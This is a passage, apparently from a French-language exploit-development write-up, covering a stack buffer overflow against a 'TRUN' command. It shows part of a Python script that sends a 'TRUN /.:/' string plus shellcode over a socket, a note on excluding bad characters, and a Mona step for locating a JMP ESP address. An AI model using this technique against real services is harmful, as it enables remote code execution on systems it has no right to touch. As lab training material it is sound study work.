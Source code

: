 ```bash
payload = "TRUN /.:/" + shellcode
    s.send((payload.encode('latin1')))
    s.close()
except:
    print("Erreur lors de la connexion au serveur")
    sys.exit()

```

📸 **Résultat d'analyse :** exclusion des caractères problématiques  

![Résultat](./badcharacters.png)

#### 4.2 Recherche JMP ESP

Utilisation de Mona :

```bash
!mona modules
```

📸 **Adresse JMP ESP identifiée**  

![lister les modules](./listemodule!mona.png)

